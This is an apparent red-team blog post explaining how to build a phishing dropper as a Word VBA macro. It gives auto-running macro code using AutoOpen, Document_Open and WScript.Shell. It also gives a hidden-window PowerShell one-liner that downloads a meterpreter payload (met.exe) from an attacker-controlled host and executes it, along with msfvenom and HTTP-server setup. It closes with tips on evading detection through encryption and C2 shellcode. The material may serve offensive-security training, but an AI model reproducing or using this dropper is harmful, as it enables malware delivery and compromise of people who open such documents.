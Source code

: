 +++
title = 'Dropper Using VBA'
date = 2024-08-23T18:44:32+05:00
draft = false
tags = ["VBA", "Social Engineering", "OSEP"]
categories = ["Phishing", "Red Team"]
+++

In this post we will talk about how to create a dropper using VBA and some detection stuff.

First off, what is VBA and why it is useful.\
Well VBA stands for Visual Basic for Applications. This language very useful for creation some macros for the Microsoft Office tools. It has very interesting syntax and datatypes.

To start coding in VBA we need to create a document, which can support macros. We can not use document types, which contain 'x'. The best options are .doc (doc 97-2003 years) or .docm whic support macros

You may open Word and create a blank document or create a document in whatever format then just save in two types above written. Then go to View -> Macros -> View Macros.
Here we need to choose "Macros in" the name of the document or current document. In my case it is temp.docx (document)

![Alt text](image.png)

\
Then write the name of the Macro. We can use just MyMacro and we have the VBA Editor.

![Alt text](image-1.png)

\
Now let's talk abut what is Sub and how it works. 

A sub can be described as a small program within the VBA Editor that performs a specific action in Excel. It is used to break large pieces of code into smaller parts that can be easily managed.
VBA Sub is very similar to function type, but in it is not function.
The difference between a Sub and Function are follows:
> **Sub**
- A sub performs a task but does not return a value like void type;
- Subs can be recaalled from anywhere in the program and in multiple types;
- Subs cannot be used directly in spreadsheets as formulas;
- Users must insert a value in the desired call before getting the result of the sub;
- Excel users can execute a VBA sub.

> **Function**
- A function returns a value of the tasks performed.
- Functions are called by a variable.
- Functions are used directly in spreadsheets as formulas.
- Functions can be used to perform repetitive tasks and return a value.
- Excel users cannot execute VBA functions.

\
After understanding what is sub we can start coding :)
To automatically run the script we can use Subs AutoOpen and Document_Open.

![Alt text](image-2.png)

\
The idea of the dropper is download a malicious file from the hacker's server and execute it in the victim's system. We can use WScript and its method Exec to execute cmd or powershell command.

**About Wscript**

Windows Script Host provides an environment in which users can execute scripts in various languages that use various object models to perform tasks.

We need to use the Set keyword to set a WScript.Shell object, then using that object calling Exec method to execute a command.

![Alt text](image-3.png)


```vba
Sub MyMacro()
    Set shell_object = CreateObject("WScript.Shell")
    shell_object.Exec ("calc.exe")
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub
```

\
But before we need to save the macro using short key Ctrl + S. If you used not .docm or .doc file format, you will have this alert message.

![Alt text](image-4.png)
\
We need to click No and choose the type, which support macros. In my case it will be .doc file.

![Alt text](image-5.png)
\
After that close the document and reopen the .doc version. After opening the document you will see the alert about Macro.

![Alt text](image-6.png)
\
Click to Enable Content and wait execution of the macro.

![Alt text](image-7.png)
\
As you can see the macro successfully executed and called calc.exe

That is good, but what about downloading and executing files from the hacker's server. So we can use powershell, System.WebClient object and its DownloadFile method to download and save the file. Then Start-Process command to start the process.

Powershell code, to download and save the met.exe file.
```powershell
powershell.exe -window-style hidden (New-Object System.Net.WebClient).DownloadFile('http://192.168.0.83/met.exe', 'C:\Windows\Tasks\met.exe')
```

\
Then using Start-Process we can execute the met.exe:
```powershell
Start-Process C:\Windows\Tasks\met.exe
```

\
Combine them together:
```powershell
powershell.exe -window-style hidden (New-Object System.Net.WebClient).DownloadFile('http://192.168.0.83/met.exe', 'C:\Windows\Tasks\met.exe'); Start-Process C:\Windows\Tasks\met.exe
```
\
Before saving and opening the document create a malicious file using msfvenom or whatever framework/c2. In my case it is just meterpreter cmd spawner.

![Alt text](image-9.png)
\
Then open python http server.
Also before generating a malicious file understand in which process arch the word running, It maybe x32 or x64. In my case it is x64 process.

![Alt text](image-8.png)
\
After opening document we can see that from victim get request to download met.exe file.

![Alt text](image-10.png)
\
In the Victim's machine spawned cmd.exe (btw my defender is not turned on, so that's why cmd spawned XD).

![Alt text](image-11.png)
\
That kind of attack is detectable, but using some custom encryption and using C2 shellcodes might work.

In the next part we will create VBA code, which will use Win32 APIs.
